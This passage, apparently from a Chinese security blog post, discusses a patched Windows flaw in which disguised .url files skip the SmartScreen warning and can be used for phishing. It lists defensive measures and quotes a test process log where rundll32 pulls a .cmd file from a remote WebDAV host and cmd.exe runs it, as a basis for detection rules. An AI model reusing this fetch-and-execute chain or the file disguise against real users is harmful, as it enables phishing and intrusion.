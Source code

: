 而在打了最新补丁的机器上测试，是这个效果，会进行安全提醒：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibThNCIOkldjvzDpb47EYK6TFgG6dvrIlWgVYXw5agqMMDk5MpzOcTSgHZoxtC2M9hs41VJPRO7LNA/640?wx_fmt=png&from=appmsg "")  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/975QoDl7XibThNCIOkldjvzDpb47EYK6TxP4M8IvibCJKmrN9SYGZPTW9EL75Av3GfpoMgiblz2kffY7ZuDBtxFNg/640?wx_fmt=png&from=appmsg "")  
  
笔者认为这个漏洞虽然看起来比较鸡肋，看似就是绕过了一个安全提醒，但其实伪装性非常强，可以伪造一个下载目录资源管理器，并且无论文件查看如何设置，  
.url  
文件都会自动隐藏后缀，还可以通过  
ini  
配置来设置图标，非常容易诱导人去点击（其实安全意识差的人也不差  
SmartScreen  
这一层安全提醒  
= =  
），结合起来钓鱼还是比较容易。  
  
**防御措施**  
  
·及时更新微软  
2  
月最新补丁；  
  
·从浏览器转到资源管理器时，仔细辨别要点击文件的文件类型；  
  
·对  
rundll32  
异常的命令行进行检测。在进行测试时，产生了如下进程日志：  
```
svchost.exe --> rundll32.exe C:\Windows\system32\davclnt.dll,DavSetCookie 10.xx.xx.xx@8077 http://10.xx.xx.xx:8077/WebDAV/cxm.cmd

explorer.exe --> C:\Windows\system32\cmd.exe /K "\\10.xx.xx.xx@8077\WebDAV\cxm.cmd"
```  
  
各位佬自行参考写规则吧。  
  
  
**注：本文内容仅用于研究学习，不可用于网络攻击等非法行为，否则造成的后果均与本文作者和本公众号无关，维护网络安全人人有责~**  
  
